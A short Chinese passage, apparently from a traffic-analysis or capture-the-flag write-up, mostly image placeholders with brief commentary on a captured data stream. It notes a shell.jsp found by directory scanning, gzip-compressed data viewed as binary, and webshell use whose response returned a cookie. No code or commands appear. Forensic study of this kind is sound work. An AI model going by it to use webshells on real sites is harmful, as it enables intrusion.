



这个shell.jsp应该是之前目录探测的时候探测出来的

因为数据是经过gzip压缩的，所以我们得换成二进制去看数据

然后我们接着刚刚的数据流往下看



这里就是利用webshell了，并且此时的响应返回了cookie


